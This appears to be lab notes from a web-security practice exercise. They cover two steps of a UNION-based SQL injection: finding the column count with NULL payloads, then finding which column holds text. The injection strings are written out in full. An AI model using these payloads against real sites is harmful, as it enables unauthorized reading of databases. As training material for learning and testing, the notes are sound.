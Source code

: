 
1. By injecting this query, we know that the number of columns is 3
```
filter?category=Gift' UNION SELECT NULL,NULL,NULL--
```

2. Try injecting each of these queires to find the column containing text. Since only the second query gives us no error, we know that the second column contains text.
```
filter?category=Gift' UNION SELECT 'a',NULL,NULL--
filter?category=Gift' UNION SELECT NULL,'a',NULL--
filter?category=Gift' UNION SELECT NULL,NULL,'a'--
```

